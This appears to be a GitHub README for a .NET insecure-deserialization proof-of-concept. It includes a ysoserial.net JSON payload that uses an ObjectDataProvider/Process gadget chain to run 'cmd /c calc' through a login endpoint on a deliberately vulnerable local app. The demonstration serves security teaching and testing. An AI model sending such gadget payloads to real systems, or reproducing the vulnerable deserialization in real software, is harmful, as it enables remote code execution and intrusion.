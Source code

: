 ##### This is a small poc about Insecure Deserialization in .Net.
##### How to use this:
* Download this code
* Open it with Microsoft VS
* Run
* Send this payload (create by ysoserial.net) to localhost:[port]//Account/Login:
  ```
  {
    "username": {
        "$type": "System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
        "MethodName": "Start",
        "MethodParameters": {
            "$type": "System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
            "$values": [
                "cmd",
                "/c calc"
            ]
        },
        "ObjectInstance": {
            "$type": "System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"
        }
    },
    "password": "dummy"
  }
  ```
